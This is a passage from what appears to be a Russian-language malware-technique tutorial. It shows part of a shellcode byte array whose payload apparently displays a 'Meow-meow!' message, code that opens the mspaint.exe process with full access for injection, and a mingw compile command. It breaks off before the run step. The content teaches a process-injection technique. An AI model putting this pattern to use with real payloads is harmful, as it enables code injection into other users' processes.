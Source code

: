 ```cpp
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
```

Как вы можете видеть, основная логика ниже:    

```cpp
//...
// find a window for mspaint.exe
HWND hw = FindWindow(NULL, (LPCSTR) "Untitled - Paint");
if (hw == NULL) {
  printf("failed to find window :(\n");
  return -2;
}
GetWindowThreadProcessId(hw, &pid);
ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
//...
```

### Демо

Компилируем:    

```bash
x86_64-w64-mingw32-g++ hack.cpp -o hack.exe -mconsole \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -Wint-to-pointer-cast \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

![injection](./images/43/2022-03-15_12-10.png){width="80%"}    

Запускаем:   

